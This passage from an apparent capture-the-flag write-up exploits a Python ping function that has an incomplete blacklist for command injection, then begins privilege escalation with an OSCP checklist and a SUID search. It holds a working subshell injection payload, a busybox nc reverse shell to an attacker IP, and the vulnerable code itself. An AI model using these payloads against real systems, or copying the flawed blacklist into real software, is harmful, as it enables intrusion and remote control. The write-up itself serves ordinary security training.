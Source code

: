 I noticed ping here and inspecting the source code I see performs ping request to provided IP address

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

but it restricts the usage of characters that cause command injection, but one is missing here `sub-shell`.

We can execute command using `$(command)` and it is not prevented by the script.

I am gonna write a reverse shell script in a `.sh` because `-` is blocked and then execute the script.

```bash
#! /bin/bash

busybox nc 10.10.14.12 4445 -e /bin/bash
```

```bash
10.10.14.12$(/tmp/script.sh)
```

![image.png](image%2018.png)

You can make the shell persistent using same method with `socat`.

## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

Checking for `SUID` bits set I see `systemctl`:

```bash
find / -perm -u=s -type f 2>/dev/null
```
